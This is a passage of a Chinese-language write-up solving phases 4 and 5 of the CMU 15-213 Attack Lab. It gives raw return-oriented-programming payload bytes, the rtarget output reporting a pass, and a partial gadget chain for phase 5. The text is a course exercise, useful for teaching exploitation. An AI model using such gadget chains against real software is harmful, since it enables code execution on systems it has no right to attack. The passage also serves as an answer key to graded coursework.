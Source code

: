 ```
/* 以上40字节 */
ab 19 40 00 00 00 00 00 /* gadget address 1 */
fa 97 b9 59 00 00 00 00 /* cookie: 59b997fa */
a2 19 40 00 00 00 00 00 /* gadget address 2 */
ec 17 40 00 00 00 00 00 /* touch2 address */
```
成功了!
```shell
$ ./rtarget -qi Phase4-raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
执行返回地址的时候栈顶指针已经在这块8字节地址内存的上方了.
遇到`ret`指令时,实质是将此时的栈顶指针上方当作返回地址取出并跳转.


## Phase 5
根据Handout的提示,可能需要用到8个gadget
注意到
```
	0x0000000000401a03 <addval_190+0>:   8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
# 48 89 e0 c3:  movq     %rsp,%rax;ret
	0x00000000004019a0 <addval_273+0>:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
# 48 89 c7 c3 :     movq    %rax,%rdi;ret
```
如何在栈空间中连续存放字符串呢?我注意到farm.c文件中有一个 `add_xy`函数:
```C
long add_xy(long x, long y)  
{  
    return x+y;  
}
```
利用这个函数来计算字符串存放的位置相对于%rsp的偏移量
设计gadget:
```
gadget 1:    # 0x401a06
	movq    %rsp,%rax
	ret

gadget 2:    # 0x4019a2
	movq    %rax,%rdi
	ret
# 以上,将%rsp处的值复制给了%rdi

gadget 3:    # 0x4019ab
	pop    %rax
	ret

gadget 4:    # 0x4019dd
	movl    %eax,%edx
	ret

gadget 5:    # 0x401a34
	cmpb    %cl,cl
	movl    %edx,%ecx
	ret
```